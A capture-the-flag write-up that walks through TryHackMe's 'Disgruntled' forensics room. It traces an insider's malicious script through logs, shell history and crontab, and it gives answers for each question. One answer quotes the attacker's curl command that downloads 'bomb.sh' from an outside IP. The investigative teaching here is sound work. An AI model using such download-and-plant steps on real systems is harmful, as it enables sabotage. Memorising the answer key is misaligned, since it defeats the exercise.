Hello, this writeup provides description on how to find answers in CTF Disgruntled on tryhackme. If you are lost and looking for answers this is a good place. Enjoy!

Room description:
*Hey, kid! Good, you're here!*

*Not sure if you've the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.*

*CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab, a cup of coffee, and meet me in the conference room.*

The room provides us also with great cheat sheet worth saving.
Check it out!

**Question 1: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?**

First i'll navigate into */var/log* directory to check what log files we were provided with.



After checking *auth.log1* file i've found command that installed a package on the machine with root privileges.



**Answer: /usr/bin/apt install dokuwiki**

**Question 2: What was the present working directory (PWD) when the previous command was run?**



**Answer: /home/cybert**

**Question 3: Which user was created after the package from the previous task was installed?**



**Answer: it-admin**

**Question 4: A user was then later given sudo privileges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)**

The *visudo* is called when editing the /etc/sudoers file. I've looked into the logs again and found the answer:



**Answer: Dec 28 06:27:34**

**Question 5: A script file was opened using the "vi" text editor. What is the name of this file?**



**Answer: bomb.sh**

**Question 6: What is the command used that created the file bomb.sh**

From answering previous question i knew that user who opened bom.sh with *vi* was it-admin, so i've checked hist *.bash_history* file.



**Answer: curl 10.10.158.38:8080/bomb.sh --output bomb.sh**

**Question 7: The file was renamed and moved to a different directory. What is the full path of this file now?**

There is no more interesting things in *.bash_history*, but knowing that the attacker used vim and that it may be used to renaming and moving files, i'm gonna check vim history file under */home/it-admin/.viminfo*.



**Answer: /bin/os-update.sh**

**Question 8: When was the file from the previous question last modified? (Format: Month Day HH:MM)**

I've navigated to the */bin* directory where os-update.sh file was moved. Then i've ran *ls -al --all-time* command.





**Answer: Dec 28 06:29**

**Question 9: What is the name of the file that will get created when the file from the first question executes?**

I've looked into a os-update.sh file and i found an answer.



**Answer: goodbye.txt**

**Question 10: At what time will the malicious file trigger? (Format: HH:MM AM/PM)**

I looked into crontab and noticed the malicious script. I've copied the schedule expression and using https://crontab.guru/ converted it to know on which hour it gonna trigger.





**Answer: 08:00 AM**

Room finished!